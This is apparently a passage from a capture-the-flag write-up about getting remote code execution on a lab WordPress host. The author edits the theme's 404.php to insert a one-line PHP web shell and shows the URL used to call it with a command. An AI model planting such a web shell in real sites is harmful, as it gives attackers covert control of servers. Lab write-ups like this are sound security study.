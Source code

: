 ![Wordpress Admin Panel](screenshots/80_wordpress_admin.png)

## Editing WordPress Theme for Code Execution

With `admin` access to WordPress, there are many options to trigger remote code execution. In this machine, I tried the manipulation of a WordPress theme to get code execution. In the admin console, navigate to `Appearance > Theme Editor`. Under the `Select theme to edit` I choose `Twenty Nineteen`. In the `Theme File` panel, selected the `404.php` page.

From here, we can add in some malicious PHP code, and save the file. Later we can navigate to the modified PHP file and get remote code execution. The code I entered was at the start of the `404.php` file, and was the following line:

```none
<?php system($_REQUEST["cmd"]) ?>
```

Then saved the file using the "Update File" button. All looks good... but navigating to a maliciously edited file does not work?! And a blank page is displayed. I used the following URL to access the page:

```none
http://10.10.10.29/wordpress/wp-content/themes/twentynineteen/404.php?cmd=whoami
```

